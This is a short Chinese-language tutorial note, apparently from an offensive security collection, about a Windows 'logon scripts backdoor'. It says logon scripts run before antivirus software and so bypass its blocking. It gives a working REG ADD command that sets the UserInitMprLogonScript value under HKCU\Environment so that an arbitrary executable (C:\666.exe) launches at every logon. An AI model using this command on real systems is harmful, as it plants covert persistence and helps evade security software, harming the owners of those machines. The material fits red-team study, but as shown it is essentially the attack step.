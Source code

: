 ![image-20240409164439767](images/16.png)

# logon scripts 后门

Windows登录脚本，当用户登录时触发，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。

注册表位置:

```
HKEY_CURRENT_USER\Environment
```

```
REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\666.exe"    #创建键为：UserInitMprLogonScript，其键值为我们要启动的程序路径
```

![image-20240409164932023](images/17.png)